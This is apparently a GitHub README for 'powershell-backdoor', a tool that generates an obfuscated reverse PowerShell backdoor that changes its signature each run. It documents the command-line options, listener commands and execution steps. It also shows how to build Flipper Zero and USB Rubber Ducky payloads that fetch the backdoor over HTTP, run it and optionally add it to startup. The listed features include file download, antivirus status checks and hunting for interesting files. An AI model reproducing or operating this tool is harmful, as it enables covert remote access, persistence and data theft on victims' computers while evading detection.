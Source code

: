# powershell-backdoor
Reverse backdoor written in Powershell and obfuscated with Python. Allowing the backdoor to have a new signature after every run. Also can generate auto run scripts for Flipper Zero and USB Rubber Ducky.
```
usage: listen.py [-h] [--ip-address IP_ADDRESS] [--port PORT] [--random] [--out OUT] [--verbose] [--delay DELAY] [--flipper FLIPPER] [--ducky]
                 [--server-port SERVER_PORT] [--payload PAYLOAD] [--list--payloads] [-k KEYBOARD] [-L] [-H]

Powershell Backdoor Generator

options:
  -h, --help            show this help message and exit
  --ip-address IP_ADDRESS, -i IP_ADDRESS
                        IP Address to bind the backdoor too (default: 192.168.X.XX)
  --port PORT, -p PORT  Port for the backdoor to connect over (default: 4444)
  --random, -r          Randomizes the outputed backdoor's file name
  --out OUT, -o OUT     Specify the backdoor filename (relative file names)
  --verbose, -v         Show verbose output
  --delay DELAY         Delay in milliseconds before Flipper Zero/Ducky-Script payload execution (default:100)
  --flipper FLIPPER     Payload file for flipper zero (includes EOL conversion) (relative file name)
  --ducky               Creates an inject.bin for the http server
  --server-port SERVER_PORT
                        Port to run the HTTP server on (--server) (default: 8080)
  --payload PAYLOAD     USB Rubber Ducky/Flipper Zero backdoor payload to execute
  --list--payloads      List all available payloads
  -k KEYBOARD, --keyboard KEYBOARD
                        Keyboard layout for Bad Usb/Flipper Zero (default: us)
  -A, --actually-listen
                        Just listen for any backdoor connections
  -H, --listen-and-host
                        Just listen for any backdoor connections and host the backdoor directory
```
# Quick Links
* [Preview](#preview)
* [Features](#features)
* [Standard Backdoor](#standard-backdoor)
* [Flipper Zero Backdoor](#flipper-zero-backdoor)
* [USB Rubber Ducky Backdoor](#usb-rubber-ducky-backdoor)
* [Thanks](#thanks)
* [To Do](#to-do)

## Preview
![preview](/core/images/preview.PNG)
<br>

## Features
* Hak5 Rubber Ducky payload
* Flipper Zero payload
* Download Files from remote system
* Fetch target computers public IP address
* List local users
* Find Intresting Files
* Enumerate OS Information
* Find BIOS Information
* Get Anti-Virus Status
* Get Active TCP Clients
* Install Choco (https://chocolatey.org/)
* Checks for common pentesting software installed

## Standard backdoor
``` bash
C:\Users\DrewQ\Desktop\powershell-backdoor-main> python .\listen.py --verbose
[*] Encoding backdoor script
[*] Saved backdoor backdoor.ps1 sha1:32b9ca5c3cd088323da7aed161a788709d171b71
[*] Starting Backdoor Listener 192.168.0.223:4444 use CTRL+BREAK to stop
```
A file in the current working directory will be created called backdoor.ps1

### Backdoor Execution
Tested on Windows 11, Windows 10 and Kali Linux
```cmd
powershell.exe -File backdoor.ps1 -ExecutionPolicy Unrestricted
```
```cmd
┌──(drew㉿kali)-[/home/drew/Documents]
└─PS> ./backdoor.ps1
```

# Bad USB/ USB Rubber Ducky attacks
When using any of these attacks you will be opening up a HTTP server hosting the backdoor. Once the backdoor is retrieved the HTTP server will be shutdown.

## Payloads
   * Execute -- Execute the backdoor 
   * BindAndExecute -- Place the backdoor in the users temp directory, bind the backdoor to startup and then execute it. (Requires Admin)
## Flipper Zero Backdoor
Below will generate a file called powershell_backdoor.txt, which when triggered on the Flipper will fetch the backdoor from your computer over HTTP and execute it.
```
C:\Users\DrewQ\Desktop\powershell-backdoor-main> python .\listen.py --flipper powershell_backdoor --payload execute
[*] Started HTTP server hosting file: http://192.168.0.223:8989/backdoor.ps1
[*] Starting Backdoor Listener 192.168.0.223:4444 use CTRL+BREAK to stop
```
Place the text file you specified (e.g: powershell_backdoor.txt) into your flipper zero. When the payload is executed 
it will download and execute backdoor.ps1

## Usb Rubber Ducky Backdoor
Below is a tutorial on how to generate an inject.bin file for the Hak5 USB Rubber ducky
```
 C:\Users\DrewQ\Desktop\powershell-backdoor-main> python .\listen.py --ducky --payload BindAndExecute
[*] Started HTTP server hosting file: http://192.168.0.223:8989/backdoor.ps1
[*] Starting Backdoor Listener 192.168.0.223:4444 use CTRL+BREAK to stop
```
A file named inject.bin will be placed in your current working directory. Java is required for this feature. When the payload is executed 
it will download and execute backdoor.ps1

## Thanks
To encode payload.txt into inject.bin for USB Rubber Ducky Attacks I use encoder.jar created by ![midnitesnake](https://github.com/midnitesnake).

## To Do 
* Add Standard Backdoor
* Find Writeable Directories
* Get Windows Update Status

## Output of 5 obfuscations/Runs 
```
sha1:c7a5fa3e56640ce48dcc3e8d972e444d9cdd2306
sha1:b32dab7b26cdf6b9548baea6f3cfe5b8f326ceda
sha1:e49ab36a7ad6b9fc195b4130164a508432f347db
sha1:ba40fa061a93cf2ac5b6f2480f6aab4979bd211b
sha1:f2e43320403fb11573178915b7e1f258e7c1b3f0
```

